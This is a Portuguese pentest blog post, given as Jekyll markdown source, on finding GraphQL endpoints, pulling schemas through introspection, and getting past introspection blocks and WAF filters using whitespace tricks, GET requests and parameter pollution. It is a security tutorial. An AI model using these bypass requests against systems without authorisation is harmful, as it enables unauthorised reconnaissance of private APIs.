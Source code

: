 ```yaml
---
layout: post
title:  "Descobrindo e explorando endpoints GraphQL"
date:   2025-04-05 13:30:00
cover: /lab/assets/images/posts/lucassouza.io_graphql_attacks.png
categories: PENTEST
--- 
```


GraphQL tornou-se uma alternativa popular às APIs REST devido à sua flexibilidade e eficiência. Neste guia técnico, exploraremos endpoints comuns, técnicas de introspecção e métodos para contornar controles de segurança.

---
## Endpoints GraphQL Comuns

Ao testar APIs GraphQL, verifique estes endpoints:

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

**Dica:**  
Use ferramentas como **Burp Suite**, **curl** ou **Postman** para enviar consultas de teste a esses endpoints. Um simples `POST` com `{"query":"{__typename}"}` pode confirmar se um endpoint está ativo.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"query":"{__typename}"}' http://alvo/graphql
```

---
## Introspection Query: Mapeando o Schema da API

O **introspection** permite que clientes consultem o **schema** de uma API GraphQL — um recurso poderoso tanto para desenvolvedores quanto para atacantes. Veja como utilizá-lo:

### Verificação Básica de Introspecção

```json
{
  "query": "{__schema{queryType{name}}}"
}
```
Uma resposta bem-sucedida confirma que a introspecção está habilitada.

### Extração Completa do Schema

Use esta consulta detalhada para obter o schema completo:

```json
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types { ...FullType }
    directives {
      name
      description
      args { ...InputValue }
    }
  }
}

fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args { ...InputValue }
    type { ...TypeRef }
    isDeprecated
    deprecationReason
  }
  inputFields { ...InputValue }
  interfaces { ...TypeRef }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes { ...TypeRef }
}

fragment InputValue on __InputValue {
  name
  description
  type { ...TypeRef }
  defaultValue
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
      }
    }
  }
}
```

**Nota:** Se a consulta falhar, tente remover as diretivas `onOperation`, `onFragment` e `onField`. Muitas implementações as rejeitam por padrão.

---
## Contornando as Proteções de Introspecção

Ao enfrentar introspecção desabilitada ou proteções de WAF, experimente estas técnicas:
### 1. Manipulação de Espaços em Branco

```json
{
  "query": "query{__schema
  {queryType{name}}}"
}
```

O GraphQL ignora espaços em branco, permitindo quebrar proteções baseadas em regex.
### 2. Troca de Método HTTP

Teste requisições GET com consultas codificadas em URL:

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```
### 3. Poluição de Parâmetros

Teste nomes alternativos de parâmetros:

```http
POST /api
Content-Type: application/json

{"q":"{__schema{types{name}}}", "query":"{__typename}"}
```
### 4. Descoberta Assistida por Ferramentas

Se a introspecção estiver desativada, use **[clairvoyance](https://github.com/nikitastupin/clairvoyance)** para reconstruir o schema por meio de mensagens de erro e sugestões de consulta.

---
## Exploração Avançada com Burp Suite

1. Com o endpoint GraphQL identificado **envie a requisição para o Repeater**: 
	- Clique com o botão direito em qualquer requisição GraphQL → **Send to Repeater**.
	
2. **Execute a Introspecção**:
    - No aba repeater, clique com o botão direito na requisição → **GraphQL → Set Introspection Query**.
	
3. **Analise os Resultados**:
    - Clique com o botão direito na resposta → **GraphQL → Save queries to site map**.
    - Visualize o schema reconstruído em **Target → Site Map**.
   
---
## Estudo Complementar:

- https://portswigger.net/web-security/graphql
- https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html
- https://graphql.org/learn/security/
